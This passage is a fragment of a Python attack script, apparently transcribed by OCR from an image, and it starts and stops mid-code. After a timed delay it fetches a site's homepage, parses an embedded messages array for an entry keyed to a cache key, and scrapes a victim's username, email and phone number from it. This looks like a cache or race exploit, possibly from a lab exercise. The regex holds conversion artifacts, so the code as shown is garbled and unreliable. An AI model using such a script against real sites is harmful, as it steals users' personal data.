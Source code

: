 ```py
        if VERBOSE:
            print(f"[LARRY_DASHBOARD] error: {e}")

def do_get_and_parse():
    """Wait DELAY seconds, GET homepage and try to parse messages. Put result in queue if found."""
    try:
        time.sleep(DELAY)
        r = session.get(BASE + '/', timeout=8)
    except Exception as e:
        if VERBOSE:
            print(f"[GET] error: {e}")
        return

    if VERBOSE:
        print(f"[GET] status={r.status_code} len={len(r.text)}")

    # find the JS array
    m = re.search(r'const messages = ($begin:math:display$.*?$end:math:display$);', r.text, re.DOTALL)
    if not m:
        if VERBOSE:
            print("[GET] no 'const messages' found in response")
        return

    raw = m.group(1)
    # try to load JSON safely
    try:
        msgs = json.loads(raw)
    except Exception as e:
        if VERBOSE:
            print(f"[GET] json.loads error: {e}")
        return

    for msg in msgs:
        title = msg.get('title')
        if title != CACHE_KEY:
            continue
        # message field may be None; check
        html = msg.get('message')
        if not html:
            if VERBOSE:
                print("[GET] target message present but 'message' is None/empty")
            continue

        if VERBOSE:
            print(f"[GET] Found message content: {html[:200]}...")

        # Now parse html safely
        username = re.search(r'Welcome,\\s*([^!<]+)!', html)
        email = re.search(r'email is\\s*([^!<\\s]+)', html)
        phone = re.search(r'phone number is\\s*([^!<\\s]+)', html)

        username_v = username.group(1).strip() if username else None
        email_v = email.group(1).strip() if email else None
        phone_v = phone.group(1).strip() if phone else None

        if any([username_v, email_v, phone_v]):
            result = {'username': username_v, 'email': email_v, 'phone': phone_v, 'raw_snippet': html[:400]}
            result_q.put(result)
            stop_event.set()
            return
        else:
```